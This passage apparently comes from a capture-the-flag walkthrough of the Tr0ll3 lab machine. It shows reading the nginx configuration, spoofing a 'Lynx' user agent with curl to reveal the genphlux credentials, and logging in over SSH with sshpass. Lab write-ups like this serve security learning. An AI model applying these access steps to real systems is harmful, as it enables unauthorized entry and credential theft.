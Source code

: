 And I decided to check the `NGINX` configuration. When I read the file in the `NGINX` `sites-available` directory:
```
$ wytshadow@Tr0ll3:~$ cat /etc/nginx/sites-available/default | grep -v '#'
```
Then I can see:

![evidence](./static/13-nginx-sites.png)

And I identify that there is a condition with the `user-agent`, And it must start with `Lynx`. When I use the `curl` command, and I add a `user agent` that meets that condition:
```shell
$ curl 192.168.2.44:8080 -A '"Lynx-test'
genphlux:HF9nd0cR!
```
Then I can see the `genphlux` credentials. When I use the `ssh` command:
```shell
$ sshpass -p "HF9nd0cR!" ssh genphlux@192.168.2.44
```
Then I get the `genphlux` shell:
